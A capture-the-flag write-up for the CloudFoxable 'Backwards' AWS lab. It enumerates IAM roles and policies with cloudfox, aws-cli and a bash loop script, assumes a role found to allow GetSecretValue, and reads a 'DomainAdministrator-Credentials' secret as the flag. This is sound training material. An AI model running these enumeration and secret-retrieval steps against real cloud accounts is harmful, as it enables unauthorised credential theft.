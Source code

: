 # CloudFoxable - Backwards

Challenge link: https://cloudfoxable.bishopfox.com/challenges#Backwards-9

![](images/backwards-description.png)

## Using cloudfox

Because we don't know what role will interact with that resource of starting point, we just need to list all policy and grep:

```
cloudfox aws -p cloudfoxable permissions | grep secret
```

![](images/backwards-cloudfox-permissions-grep.png)

Ahha we know there is a role called **`Alexander-Arnold`** which allow action **`secretsmanager:GetSecretValue`** on resource as described on starting point. Let's add our new profile to config so we can use then:

```
[profile arnold]
region = us-west-2
role_arn = arn:aws:iam::211125736697:role/Alexander-Arnold
source_profile = cloudfoxable
```

![](images/backwards-add-role-config.png)

Now let's read the secret with secret id is that arn value (you can take name too) and with profile **`arnold`** we have just added:

```
aws --profile arnold secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:us-west-2:211125736697:secret:DomainAdministrator-Credentials-iPf3PT
```

![](images/backwards-cloudfox-get-flag.png)

## Using aws-cli

This challenge doesn't give us IAM Role but something seems like a resource, our job is to find out which role interact with this resource. First, we need to list all role that this account has:

```
aws --profile cloudfoxable iam list-roles
```

With each role listed, we will need to check policy of each role:

```
aws --profile cloudfoxable iam list-attached-role-policies --role-name <ROLE_NAME>
```

Each policy has its arn, and with each policy we will need to get version then action and resource of policy:

```
aws --profile cloudfoxable iam get-policy --policy-arn <POLICY_ARN>
aws --profile cloudfoxable iam get-policy-version --policy-arn <POLICY_ARN> --version-id <VERSION_ID>
```

Phew, that seems too much work to do. So I decided to write a small script to loop all policy and list the resource of policy:

```bash
#!/bin/bash

roles=`aws --profile cloudfoxable iam list-roles`
res=`echo $roles | jq .[][1].RoleName`

for i in $(seq 0 $((`echo $roles | jq .[] | jq length`-1)))
do
    role_name=`echo $roles | jq -r .[][$i].RoleName`
    echo "[*] Role: $role_name"

    policies=$(aws --profile cloudfoxable iam list-attached-role-policies --role-name $role_name)
    for j in $(seq 0 $((`echo $policies | jq .AttachedPolicies | jq length`-1)))
    do
        policy_name=`echo $policies | jq -r .AttachedPolicies[$j].PolicyName`
        policy_arn=`echo $policies | jq -r .AttachedPolicies[$j].PolicyArn`
        policy_version=`aws --profile cloudfoxable iam get-policy --policy-arn $policy_arn | jq -r .Policy.DefaultVersionId`
        policy_statement=`aws --profile cloudfoxable iam get-policy-version --policy-arn $policy_arn --version-id $policy_version | jq -r .PolicyVersion.Document.Statement`
        echo "    - Name: $policy_name"
        echo "    - Arn: $policy_arn"
        echo "    - Version: $policy_version"
        echo "    - Statement: "
        echo "$policy_statement"
    done
    echo -------------------------
done
```

With the second role **`Alexander-Arnold`**, we can see the resource that is similar to resource of starting point in the description:

![](images/backwards-list-all-policies-resources.png)

So we know that role might have something interesting. Let's add that role to config file so we can use later:

![](images/backwards-add-role-config.png)

With the resource we found about **`Alexander-Arnold`**, look at **`Action`**, we can see that we can **`GetSecretValue`** of **`secretmanager`** so let's list all secret we have:

```
$ aws --profile cloudfoxable secretsmanager list-secrets
```

![](images/backwards-aws-cli-secretsmanager-list-secrets.png)

This arn is similar to the arn we got from role **`Alexander-Arnold`** so this is the secret we want! Let's read this newly profile `arnold` we have just added:

```
aws --profile arnold secretsmanager get-secret-value --secret-id DomainAdministrator-Credentials
```

![](images/backwards-aws-cli-get-flag.png)

# Reference

https://medium.com/@cybersecshashi/cloudfoxable-backwards-2fc6d6088bb7